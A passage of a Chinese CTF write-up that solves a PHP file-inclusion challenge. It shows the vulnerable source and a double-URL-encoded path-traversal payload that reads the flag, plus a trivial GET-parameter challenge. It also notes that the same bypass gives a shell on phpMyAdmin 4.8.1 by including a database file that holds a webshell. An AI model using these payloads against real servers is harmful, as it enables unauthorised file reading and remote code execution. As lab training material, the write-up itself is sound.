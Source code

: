 ```php
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }
?>

```

`mb_substr`与`substr`用法一样

![image-20220117091202170](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220117091202170.png)

所以我们在参数内多加一个`?`即可，但是要注意urlencode，代码中有一次decode，本身还有一次decode，所以要encode两次

payload

```
/source.php?file=hint.php%253F../../../../../ffffllllaaaagggg
```

参考：[phpmyadmin4.8.1后台getshell](https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog)

同样的方式绕过waf登入数据库，创建名为一句话shell的表，包含对应路径的数据库文件得到shell

{{% /spoiler %}}

{{% spoiler "[极客大挑战 2019]Havefun" %}}

页面源码

```
$cat=$_GET['cat'];
        echo $cat;
        if($cat=='dog'){
            echo 'Syc{cat_cat_cat_cat}';
        }
```

payload

```
/?cat=dog
```

